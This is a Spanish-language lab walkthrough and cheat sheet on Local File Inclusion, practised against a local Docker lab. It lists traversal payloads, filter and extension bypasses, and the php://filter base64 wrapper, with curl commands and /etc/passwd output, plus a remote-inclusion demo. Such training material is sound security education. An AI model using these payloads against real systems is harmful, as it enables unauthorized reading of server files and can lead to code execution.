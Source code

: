 ```yaml
---
title: Laboratorio - LFI
author: cotes
date: 2023-09-07 17:51:00 +0800
categories: [Laboratorio]
tags: [LFI]
math: true
mermaid: true
image:
  path: /assets/images/Laboratorios/lfi/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: LFI Logo
---
```


LFI (Local File Inclusion) es una vulnerabilidad web, de la cual nos podemos aprovechar para leer archivos de la máquina objetivo y en el mejor de los casos, para los atacantes, llegar a derivarlo a un RCE (Remote Code Execution)

## Cheatsheet 👩‍💻

|   **LFI**                | **Descripción**      |
|:----------------------------:|:-----------------|
| **`../../../../../../../../`** | Payload Básico. |
| **`....//....//....//....//`** | Bypass Posible Filtro. |
| **`/etc/./////.///hosts`**  \  **`/et?/?o?t?`** | Bypass Expresiones Regulares. |
| **`/etc/host%00`** \ **`/etc/passwd/.`** | Bypass Concatenación de Extensiones. |
| **`php://filter/convert.base64-encode/resource=[Path]`** | Wrapper de Codificación en Base64. 
| **`%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64`** | Bypass Posible Filtro. (Se urlencodea la cadena `../../../etc/passwd`) |



> Para practicar esta vulnerabilidad desplegaremos un **laboratorio con Docker:** `docker pull jnazario/lfi-labs`
{: .prompt-info }


* Como nos creó una imagen la ejecutamos haciendo por **Port Forwarding**: **`docker run -dit -p 80:80 <Image ID>`**


## LFI Básico ⚾

1. Para el primer laboratorio **LFI-1** nos dirigimos a: `http://localhost/LFI-1/`

![](/assets/images/lfi/lfi1.png)
   * Vemos que existe un parámetro **page** por el cual podemos indicar una página.
   * Si el **input** del usuario no se encuentra correctamente sanitizado, podemos llegar a leer archivos alojados en el servidor (**archivos de configuración**, **archivos críticos**, **etc**)

2. Intentaremos leer el archivo **`/etc/passwd`**

```bash
curl -s -X GET "http://localhost/LFI-1/index.php?page=/etc/passwd"

<SNIP>
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
<SNIP>
```

### Laboratorio **LFI-3**

* Dependiendo del uso de determinadas librerías para incluir archivos, podremos leer archivos locales o incluir archivos de servidores externos.

    ![](/assets/images/lfi/functions.png)

* Al usar **`file_get_contents()`** podemos **leer archivos locales y externos**

* **Leer Archivos Locales:** `http://localhost/LFI-3/index.php?file=/etc/passwd`
    ```
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    ```

* **Leer Archivos Remotos:**

    a. Primeros montamos un servidor **HTTP** con Python con un archivo **test.txt** que tenga el contenido `Hola`.

    * **Comando:** `python3 -m http.server 8080`

    b. Realizamos una petición con **cURL** a nuestro servidor:
    * **Comando:** `curl -s -X GET "http://localhost/LFI-3/index.php?file=http://<IP Máquina Host>:8080/test.txt"`

    * **Output**
        ```
        <SNIP>
        Hola
        ```
        > Vemos el contenido de nuestro archivo **test.txt** de nuestra máquina host.
         
### Laboratorio **LFI-5**
Al aplicar el **payload básico** veremos que no nos funciona, esto puede deberse a que se aplique un filtro mediante el cual eliminen `../`, este filtro puede **bypassearse**, si no se encuentra aplicado correctamente.

```php
<?php
$cadena = "../directorio/archivo.txt";
$reemplazo = "";
$nuevaCadena = str_replace("../", $reemplazo, $cadena);
echo $nuevaCadena; # nuevaCadena = directorio/archivo.txt
?>
```

Si nos fijamos bien en el código anterior, veremos que se elimina la coincidencia **`../`**, pero, no se aplica de manera recursiva, es decir, solo lo elimina una vez.

En caso de indicarle **`....//`** al eliminar una única vez **`../`** la cadena final será **`../`**, así que ya encontramos una forma de **bypassear** el filtro posiblemente aplicado.

* **Comando:** `curl -s -X GET "http://localhost/LFI-5/index.php?file=....//....//....//....//....//....//....//....//etc/passwd"`

* **Output**

```
<SNIP>
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
```

### **Usando Wrappers de PHP** 🍬
A pesar de que en todos los casos anteriores obtenemos el archivo **/etc/passwd** exitosamente, existirán casos en los que representar archivos con una estructura con muchas líneas o caracteres especiales puede corromper la muestra del mismo, haciendo que no nos sea posible leer archivos. Para evitar este tipo de problemas podemos representar la información en **base64**

En el laboratorio **LFI-1** podemos obtener el contenido encodeado en base64 usando **php://filter/encode.base64-convert/resource=[Path Archivo]**

* **Comando:** `curl -s -X GET "http://localhost/LFI-1/index.php?page=php://filter/convert.base64-encode/resource=/etc/passwd"`

* **Output**

    ```
    <SNIP>
    cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaApkYWVtb246eDoxOjE6ZGFlbW9uOi91c3Ivc2JpbjovdXNyL3NiaW4vbm9sb2dpbgpiaW46eDoyOjI6YmluOi9iaW46L3Vzci9zYmluL25vbG9naW4Kc3lzOng6MzozOnN5czovZGV2Oi91c3Ivc2Jpbi9ub2xvZ2luCnN5bmM6eDo0OjY1NTM0OnN5bmM6L2JpbjovYmluL3N5bmMKZ2FtZXM6eDo1OjYwOmdhbWVzOi91c3IvZ2FtZXM6L3Vzci9zYmluL25vbG9naW4KbWFuOng6NjoxMjptYW46L3Zhci9jYWNoZS9tYW46L3Vzci9zYmluL25v<SNIP>
    ```

Ahora, podemos decodear la cadena anterior y ver el contenido original

* **Comando:** `echo -n "cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaApkYWVtb246eDoxOjE6ZGFlbW9uOi91c3Ivc2JpbjovdXNyL3N<SNIP>" | base64 -d > lfi.txt`


![](/assets/images/lfi/text.png)